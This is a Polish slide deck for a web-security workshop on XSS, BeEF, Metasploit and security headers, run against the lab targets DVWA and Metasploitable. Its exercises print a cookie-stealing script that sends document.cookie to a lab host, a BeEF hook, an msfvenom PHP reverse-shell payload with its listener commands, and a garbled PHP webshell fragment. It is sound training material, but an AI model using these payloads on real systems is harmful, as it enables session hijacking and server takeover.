

Praktyczne sposoby wykrywania podatności w aplikacjach webowych – ataki XSS, phishing i backdoory
Marzec 2021
Informacje organizacyjne
O mnie
Jestem specjalistką ds. zapewnienia jakości i bezpieczeństwa oprogramowania z doświadczeniem w testach bezpieczeństwa aplikacji webowych oraz infrastruktury, testach wydajnościowych oraz testach technicznych.
Kwestie organizacyjne
- Warsztaty w godz. 10:00 - 14:00.
- Jeśli nikt nie ma nic przeciwko, zwracajmy się na "Ty".
- Teoria + zadania praktyczne.
- 2-3 przerwy po 10 min.
- Pytania zadawajcie na bieżąco.
Code of Ethics
Prezentowanych na warsztatach technik nie stosujemy na systemach bez zgody właściciela.
Korzystanie z prezentacji
- Kliknięcie ESC wyświetla widok aktualnego slajdu i pozostałych slajdów.
- Wybranie ikony w lewym dolnym rogu lub wciśnięcie klawisza m powoduje pojawienie się menu nawigacyjnego.
Agenda (I)
- Wprowadzenie i statystyki dotyczące podatności
- Aplikacja testowa - Metasploitable i DVWA
- Narzędzia typu lokalnego Proxy
- Podatność XSS i jej wykorzystanie (BeEF i własny skrypt)
- XSS metody ochrony i przykłady
Agenda (II)
- Metasploit i zdalne przejęcie kontroli nad serwerem
- Skanery umożliwiające automatyczne testy bezpieczeństwa
- Nagłówki bezpieczeństwa
Wprowadzenie
Jakie są najczęściej występujące podatności aplikacji webowych? O jakich podatnościach ostatnio słyszeliście?
Most Common Website Security VulnerabilitiesStatystyki Acunetix - marzec 2019 - luty 2020

Statystyki podatności w latach 2019 - 2020 według raportu Acunetix
Projekty OWASP
- OWASP Top 10
- OWASP Testing Guide
- OWASP Cheat Sheet Series
- OWASP Application Security Verification Standard (ASVS)
- OWASP Top 10 Proactive Controls
Motywacja
- Wykonanie podstawowych testów bezpieczeństwa nie jest trudne.
- Umiejętność wykrywania podstawowych podatności pomoże wykryć je na wczesnym etapie projektu.
- Im wcześniej błąd zostanie wykryty tym łatwiej i taniej jest go naprawić.
Motywacja
- Pierwszym etapem podczas wdrażania w testy bezpieczeństwa jest poznanie metod HTTP m. in. GET/POST oraz zdobycie świadomości możliwości obejścia walidacji po stronie serwera.
Aplikacje do ćwiczeń
Metasploitable
Metasploitable3 is a free virtual machine that allows you to simulate attacks largely using Metasploit. It has been used by people in the security industry for a variety of reasons: such as training for network exploitation, exploit development, software testing (…).
DVWA - aplikacja do ćwiczeń
Aplikacja webowa napisana w PHP/MySQL.
DVWA - zmiana poziomu zabezpieczeń
Lokalne Proxy
Narzędzia typu lokalnego Proxy
- Proxy jest zainstalowane na komputerze testującego.
- Przeglądarka łączy się z Proxy, a następnie Proxy łączy się z żądaną stroną internetową.
- Dzięki takiemu połączeniu możliwe jest przechwytywanie oraz zmiana danych wysyłanych pomiędzy przeglądarką, a serwerem.
Burp Suite (I)
Bardzo popularne narzędzie wykorzystywane podczas testów bezpieczeństwa.
Burp Suite (II)
- Szczegółowa analiza i obróbka zapytań oraz odpowiedzi.
- Możliwość powtórzenia i modyfikowania przesłanych wcześniej żądań.
- Łatwe przenoszenie zapytań pomiędzy różnymi narzędziami.
- Skaner automatyczny (pasywny i aktywny).
Instalacja certyfikatu Burp - Firefox

Podczas importu certyfikatu należy zaznaczyć opcję Trust this CA to identify web sites
Instalacja certyfikatu Burp - IE

The Chrome browser picks up the certificate trust store from your host computer. By installing Burp's CA certificate in your computer’s built-in browser (e.g. Internet Explorer on Windows, or Safari on OS X), Chrome will automatically make use of the certificate.
Alternatywa - OWASP ZAP

Ćwiczenie 1
Konfiguracja lokalnego Proxy i przechwytywanie żądań do aplikacji DVWA.
Cross-Site Scripting - XSS
Cross-Site Scripting - XSS (I)
- Atak polegający na osadzeniu w treści atakowanej strony kodu, zazwyczaj JavaScript, który wyświetlany jest użytkownikowi.
- Atakujący może wykonać skrypt po stronie użytkownika aplikacji internetowej porywając między innymi jego sesje lub powodując przekierowanie na inną stronę.
Cross-Site Scripting - XSS (II)
- Reflected XSS (Nonpersistent XSS)
- Persistent XSS (Stored XSS)
- Oparte o DOM (DOM XSS)
Cross-Site Scripting - XSS

Stored XSS

Reflected XSS
XSS Lokator
Testy można wykonać manualnie, przesyłając w każdym możliwym parametrze, którego wartość jest zwracana użytkownikowi tzw. lokator XSS w postaci znaków:
'';!--"<XSS>=&{()}
XSS Standardowy Payload
Testy można wykonać z wykorzystaniem standardowego payloadu powodującego wyświetlenie okna z alertem:
<script>alert(1)</script>
Przykład wykonania XSS

Ćwiczenie 2
- Znalezienie w aplikacji podatność XSS Reflected,
- Znalezienie w aplikacji podatność XSS Stored,
- Wykorzystać podatność XSS do przesłania identyfikatora sesji.
Serwer HTTP z wykorzystaniem Pythona
Python 2.x
python -m SimpleHTTPServer 9000
python -m http.server 9000
Kradzież plików cookie
<script>location.href = 'http://10.0.2.15:9000/Stealer.php?cookie='+document.cookie;</script>
Wykorzystanie podatności Cross-Site Scripting (XSS)
Browser Exploitation Framework - BeEF (I)
Pakiet pozwala na wykorzystanie podatności XSS np. wyświetlenie okna dialogowego, uruchomienie dźwięku, pobranie plików cookie, czy zawartości schowka.Browser Exploitation Framework - BeEF (II)
<script src="http://10.0.2.15:3000/hook.js"></script>
Browser Exploitation Framework - BeEF (III)
Panel logowania: http://10.0.2.15:3000/ui/authentication Użytkownik testowy beef/beefUwaga! Możliwa jest tylko jedna aktywna sesja użytkownika beef.
Browser Exploitation Framework - BeEF (IV)

Browser Exploitation Framework - BeEF (V)
- Social Engineering
- Fake Notification
- Google Phishing
- Pretty Theft
- Browser
- Webcam HTML5
- Hooked Domain
- Get page HTML
- Get cookie
Ćwiczenie 3
- Uruchomienie BeEF i zapoznanie z podstawową funkcjonalnością,
- Wykonanie wybranych ataków z zakładki Social Engineering i Browser.
XSS - Metody ochrony
Enkodowanie
Filtrowanie danych przesyłanych przez użytkownika przed ich wyświetleniem w aplikacji - enkodowanie:
HttpOnly i .NET Request Validation
- Zastosowanie parametru HttpOnly dla sesyjnych plików cookie.
- Stosowanie innych mechanizmów ochrony np. .net request validation
Content Security Policy
Content Security Policy pozwala twórcy aplikacji webowej na ścisłe zdefiniowanie, skąd mogą pochodzić dodatkowe zasoby, z których korzysta aplikacja www (pliki zewnętrzne JavaScript czy CSS, obrazki i inne elementy multimedialne).Ograniczenie to ma zapobiegać atakom XSS, które dołączają do źródeł strony skrypty doczytywane z innych lokalizacji sieciowych.
Sekurak - Czym jest Content Security Policy?
X-XSS-Protection (I)
- Nagłówek podaje w jaki sposób ma być wykorzystany wbudowany filtr przeciwdziałający atakom Reflected XSS.
- Działanie filtru przeglądarki opiera się na sprawdzeniu czy w treści przesyłanego żądania HTTP znajdują się tagi HTML lub fragmenty kodu JavaScript – oraz czy później wysyłane fragmenty kodu znajdują się w odpowiedzi, jeśli tak wykonanie takiego kodu jest blokowane.
X-XSS-Protection (II)
X-XSS-Protection: 0
X-XSS-Protection: 1
X-XSS-Protection: 1; mode=block
X-XSS-Protection: 1; report=<reporting-uri>
X-XSS-Protection: 0
Filtr XSS jest wyłączony, nie jest wykorzystywana ochrona po stronie przeglądarki.
X-XSS-Protection: 1
Filtr XSS jest włączony (zazwyczaj domyślne w przeglądarkach). W przypadku wykrycia ataku Cross-Site Scripting, przeglądarka usuwa ze strony fragmenty uznane za niebezpieczny skrypt.
X-XSS-Protection: 1; mode=block
Filtr XSS jest włączony w trybie, w którym wykrycie próby ataku XSS skutkuje przerwaniem renderowania strony (wyświetlana jest tylko biała strona).
X-XSS-Protection: 1; report=<reporting-uri>
Opcja dostępna tylko w przeglądarce Chromium - filtr XSS jest włączony, w przypadku wykrycia ataku Cross-Site Scripting przeglądarka usuwa ze strony fragmenty uznane za niebezpieczny skrypt i zgłasza naruszenie;
w tym celu wykorzystywana jest funkcjonalność dyrektywy report-uri mechanizmu CSP, wykorzystywanej do raportowania naruszeń.
Jaka wartość X-XSS-Protection jest najbezpieczniejsza? (I)
Jaka wartość X-XSS-Protection jest najbezpieczniejsza? (II)
- Nagłówek należy ustawiać jako X-XSS-Protection: 1; mode=block, standardowo uznaje się że jest to najbezpieczniejsza opcja – zalecana m. in. przez OWASP.
Jaka wartość X-XSS-Protection jest najbezpieczniejsza? (III)
- Nie jest zalecane zostawianie domyślnych wartości nagłówka, ponieważ wielokrotnie pokazane zostało, że w specyficznych przypadkach filtr XSS ustawiony jako X-XSS-Protection: 1 może spowodować wykonanie wprowadzonego skryptu w sytuacji, w której bez filtra nie było to możliwe.
X-XSS-Protection (III)
- Nagłówek bezpieczeństwa wprowadzał podatność tam gdzie jej nie było!
- Implementacja filtra polegała na zastąpieniu fragmentu uznanego za niebezpieczny skrypt znakiem #.
X-XSS-Protection (IV)
- Błędy w implementacji powodowały że przez # zastępowany był fragment tagu HTML, payload nie był zmieniany, a modyfikacja innego elementu strony np. zamknięcia tagu style umożliwiała wykonanie ataku z wykorzystaniem składni CSS.
Przykładowe podatności XSS z popularnych serwisów
Przykład #1 – Facebook (I)
- Podatność związana z funkcją dodawania plików pochodzących bezpośrednio z Dropboxa.
- Znaki specjalne w nazwie pliku nie były poprawnie filtrowane, dlatego dodanie pliku o nazwie: '"><img src=x onerror=alert(document.domain)>.txt skutkowało wykonaniem skryptu przez przeglądarkę i pojawieniem się okna z nazwą domeny.
Przykład #1 – Facebook (II)
- Do wykonania skryptu dochodziło bezpośrednio po dodaniu pliku, po wybraniu opcji Share.
- Jedyną trudnością było tutaj dodanie pliku o takiej nazwie do Dropboxa, nie było to możliwe bezpośrednio przez formularz uploadu ale nie stanowiło problemu jeśli utworzyło się taki plik lokalnie, a następnie zsynchronizowało katalog z Dropboxem.
Przykład #1 – Facebook (III)

Przykład #2 – Linkedin (I)
- Podatny na ataki XSS był formularz tworzenia nowej dyskusji, a dokładnie pole o nazwie More Details.
- Wprowadzenie w to pole wartości: <<a></a>body onload=alert('xss')> skutkowało trwałym zapisaniem w aplikacji payloadu XSS, a następnie jego wykonywaniem przez przeglądarki wszystkich użytkowników czytających daną dyskusję.
Przykład #2 – Linkedin (II)

Metasploit
Metasploit - podstawowe informacje (I)
Metasploit to otwarte narzędzie służące do testów penetracyjnych i łamania zabezpieczeń systemów teleinformatycznych. Metasploit zawiera bazę gotowych exploitów oraz udostępnia interfejs, dzięki któremu można przygotowywać własne, korzystając z gotowych komponentów.Metasploit - podstawowe informacje (II)
Jest to narzędzie umożliwiające wykorzystanie dostępnej bazy exploitów do wykonania ataku (poprzez wykorzystanie luki w zabezpieczeniach) i uzyskanie dostępu do atakowanego systemu, czyli przeprowadzenie symulacji włamania.Metasploit - podstawowe informacje (III)
Projekt Metasploit składa się z kilku podprojektów: projektu open-source Metasploit Framework oraz projektów komercyjnych Metasploit Pro, Express, Community, and Nexpose Ultimate.Metasploit - uruchomienie
Metasploit - historia
- 2003 – Stworzony przez HD Moore’a - sieciowa aplikacja w Perlu
- 2007 – Przepisanie MS na Ruby
- 2009 – Przejęcie przez Rapid7 - MetasploitExpress i MetasploitPro
Moduły Metasploit
- Moduły pomocnicze - nie zwracają powłoki - zapewnienie szerokiego wachlarza narzędzi np. skanowanie.
- Moduły do włamań - kod pozwalający na wykorzystanie podatności i uzyskanie dostepu do powłoki serwera.
Moduły Metasploit
- Moduły enkoderów - odpowiadają za takie przekształcenie kodu wykorzystującego lukę aby nie został on wykryty przez program antywirusowy, czy inne mechanizmy ochrony.
- Moduły ładunku - zapewniają ładunek umożliwiający wykorzystanie luki i uzyskanie dostępu do systemu.
Metasploit - przykładowe polecenia
msfconsole
show payloads
show exploits
show encoders
Vulnerability - Exploit - Payload
- Podatność - słabość oprogramowania, która może doprowadzić do utraty lub naruszenia zasobów
- Payload - część oprogramowania, która wykonuje szkodliwe działanie
- Exploit - program mający na celu wykorzystanie błędu programistycznego w celu przejęcia kontroli nad oprogramowaniem
Vulnerability - Exploit - Payload

Vulnerability - Exploit - Payload
- Moduł Payload - Ładunek dostarczany wraz z exploitem.
- Moduł Exploit - Wykorzystuje lukę w oprogramowaniu
Msfvenom
- Msfvenom służy do generowania i kodowania ładunków payload metasploit.
- msfpayload + msfencode
- Od czerwca 2015 msfvenom zastępuje msfpayload i msfencode
Msfvenom - wybrane argumenty
- -p payload –wybór payloadu
- -n długość -pułapka NOP
- -f format -format pliku wynikowego
- -e encoder -wybór encodera
- -a architektura -wybór architektury procesora
- --platform platforma -wybór platformy
- -o ścieżka -ścieżka do pliku wynikowego
- -x ścieżka -ścieżka do bazowego pliku wykonywalnego
Msfvenom - lista obsługiwanych payloadów
msfvenom -l payloads
Msfvenom - przykłady payloadów
windows/x64/meterpreter_reverse_tcp
windows/messagebox
solaris/x86/shell_reverse_tcp
python/meterpreter_reverse_https
php/meterpreter/reverse_tcp
osx/x86/shell_reverse_tcp
linux/x64/shell/reverse_tcp
Msfvenom - rodzaje payloadów
- bind_tcp - na komputerze celu tworzony jest serwer nasłuchujący, atakujący musi nawiązać połączenie.
- reverse_tcp - komputer ofiary wykonuje połaczenie do atakującego, który nasłuchuje na podanym wcześniej w konfiguracji payloada adresie i porcie.
Msfvenom - generowanie payloadu
msfvenom -p php/meterpreter/reverse_tcp lhost=10.0.2.15 lport=11000 -f raw
Msfveonm - polecenia
multi/handler
Jeżeli wybraliśmy ładunek typu reverse_tcp, należy nasłuchiwać przychodzących połączeń na porcie 11000.
multi/handler - nasłuchiwanie połączenia ofiary z ładunkiem
msf > use multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 10.0.2.15
msf exploit(handler) > set lport 11000
msf exploit(handler) > run
meterpreter > sysinfo
Ćwiczenie 5
Przejęcie kontroli nad serwerem. Testy wykonujemy na aplikacji DVWA - funkcjonalność uplaodu plików.- Wygenerowanie payloadu (msfvenom).
- Wgranie do aplikacji.
- Przejęcie kontroli nad serwerem (multi/handler).
Ćwiczenie 6
Przygotowanie najprostrzego webshella.
"; $cmd = ($_REQUEST['cmd']);
system($cmd); echo ">/pre>"; die; } ?>
Podpowiedź: https://nfsec.pl/pentest/6209
Ankieta
http://bit.ly/38XEnuySkanery automatyczne
Skanery automatyczne
- Arachni
- Nikto
- Burp Suite
- OWASP ZAP
- OpenVas
- Skipfish
Arachni
OpenVas
Nagłowki bezpieczeństwa
Nagłowki bezpieczeństwa
Zaleca się dodanie standardowych nagłówków bezpieczeństwa:- X-Frame-Options,
- Content Security Policy,
- X-XSS-Protection,
- HTTP Strict Transport Security (HSTS).
X-Frame-Options
- Nagłówek zabezpiecza przed atakami typu Clickjacking.
- Najczęściej w miejscu wskazanym użytkownikowi do kliknięcia znajduje się niewidoczna ramka <iframe>, która przechwytuje kliknięcia, które wykonują pewną akcję w podatnej aplikacji.
HTTP Strict Transport Security (HSTS)
- HTTP Strict Transport Security (HSTS) jest mechanizmem bezpieczeństwa sieci, który chroni strony przed atakami takimi, jak wymuszona zmiana poziomu protokołu oraz przechwytywanie sesji.
- Dzięki jego zastosowaniu przeglądarka łączy się tylko korzystając z połączeń HTTPS.
Ćwiczenie 6
Weryfikacja obecności nagłowków bezpieczeństwa w aplikacji DVWA oraz wybranej innej np. Facebook.
Podsumowanie
Podsumowanie (I)
- Wprowadzenie i statystyki dotyczące podatności
- Aplikacje testowe - BadStore i DVWA
- Narzędzia typu lokalnego Proxy
- Podatność XSS i jej wykorzystanie (BeEF i własny skrypt)
- XSS metody ochrony i przykłady
Podsumowanie (II)
- Metasploit i zdalne przejęcie kontroli nad serwerem
- Skanery umożliwiające automatyczne testy bezpieczeństwa
- Nagłówki bezpieczeństwa